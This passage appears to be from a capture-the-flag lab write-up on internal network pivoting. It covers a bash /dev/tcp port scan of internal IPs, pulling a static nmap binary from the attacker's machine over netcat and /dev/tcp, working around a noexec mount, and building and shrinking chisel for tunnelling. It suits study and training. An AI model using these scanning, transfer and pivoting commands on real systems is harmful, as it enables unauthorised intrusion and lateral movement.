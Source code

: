 Let's portscan .2:

	vi portscan.sh

```bash
for port in 22 25 80 443 8080 8443; do
        (echo w00t > /dev/tcp/172.19.0.2/$port && echo "Open: $port") 2> /dev/null
done
```

^ no result; let's try the other IP:

```bash
for port in 22 25 80 443 8080 8443; do
        (echo w00t > /dev/tcp/172.19.0.3/$port && echo "Open: $port") 2> /dev/null
done
```

```
Open: 80
```

If you didn't want to use bash to portscan you could always search for "static build nmap github" [^2]

	nc -lvnp 80 < nmap						// kali
	cat < /dev/tcp/10.10.16.12/80 > nmap	// target
	chmod +x nmap

	./nmap	// permission denied
	mount

```
shm on /dev/shm ... noexec
```

	mv nmap /tmp
	./nmap -p 80 172.19.0.3

We need to get to 172.19.0.3 but we don't have SSH. Let's use chisel.

Build chisel:

	git clone https://github.com/jpillora/chisel.git
	cd chisel
	go build		// from within git cloned directory 
	du -hs chisel	// 11M

Build smaller:

	go build -ldflags="-s -w"
	du -hs chisel	// 7.8M chisel

```
-s	// disable symbol table
-w	// disable DWARF generation
```

Pack it smaller:

	upx brute chisel
	du -hs chisel	// 3.0M chisel


[^1]: https://github.com/rebootuser/LinEnum.git
[^2]: https://github.com/andrew-d/static-binaries/blob/master/binaries/linux/x86_64/nmap
[^3]: https://github.com/jpillora/chisel/releases/
[^4]: https://packetstormsecurity.com/files/134200/Redis-Remote-Command-Execution.html